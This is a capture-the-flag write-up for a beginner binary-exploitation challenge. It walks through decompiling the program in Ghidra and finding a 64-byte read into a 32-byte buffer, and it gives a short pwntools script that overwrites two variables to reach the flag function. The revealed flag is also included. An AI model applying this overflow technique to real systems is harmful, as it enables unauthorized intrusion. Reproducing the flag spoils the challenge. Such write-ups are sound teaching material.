 # Challenge Description

This challenge is designed to introduce you to the world of binary exploitation (pwn).
You only need a basic understanding of data structures.
Author: YasseX

# 🔎 Step 1: Reversing the Binary with Ghidra

The first thing we did was open the binary in Ghidra, a popular reverse engineering tool.
After decompiling the main function, we obtained the following code:

![ghidra](../assets/babypwn.png)

Let's walk through it:

    A buffer of size 32 (char buffer[32];) is declared.

    Two integers, x and y, are also declared.

    The program reads 0x40 bytes (64 bytes) from user input into the 32-byte buffer.

    It prints some messages with pauses (sleep).

    Then, it checks if x == 0xdeadbeef and y == 0xbadc0de.

    If both conditions are true, it calls get_flag(), otherwise it prints a "Hardluck" message.


# ⚡ Step 2: Identifying the Vulnerability

Here, we clearly notice a buffer overflow vulnerability:

    The program reads 64 bytes into a 32-byte buffer without bounds checking.

    As a result, we can overflow the buffer and overwrite the memory areas after it — specifically the variables x and y!

# Step 3: writing exploit and get the flag

from pwn import *

context.binary = 'chall'

io = process()
#io = remote("ensafacademia.ddns.net", 9999)

payload = b'Y' * 32 + p32(0xdeadbeef) + p32(0x0badc0de)

io.sendline(payload)

io.interactive()

![exploit](../assets/pic3.png)

# Final flag : SECOPS{d4t4_s7ructur_w1th_0v3rl0w!!}
